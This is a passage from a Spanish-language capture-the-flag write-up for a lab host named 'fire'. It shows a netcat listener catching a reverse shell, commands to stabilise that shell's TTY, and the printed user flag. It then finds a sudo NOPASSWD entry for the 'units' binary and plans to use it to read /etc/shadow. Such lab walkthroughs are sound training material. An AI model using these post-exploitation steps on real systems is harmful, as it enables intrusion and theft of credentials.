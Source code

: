 Ahora si enviamos lo anterior y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.94] 56870
marco@fire:~$ whoami
whoami
marco
```

Vamos a sanitizar la shell (`TTY`).

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez echo esto leeremos la `flag` del usuario.

> user.txt

```
5400962bb9d361da14bc28ac666e3ad7
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for marco on fire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marco may run the following commands on fire:
    (root) NOPASSWD: /usr/bin/units
```

Vemos que podemos ejecutar el binario `units` como el usuario `root`, por lo que vamos a investigar que hace.

Vemos que con el `-f` o `--file` podremos cargar un archivo, vamos a probar a leer el `shadow` a ver si funciona:
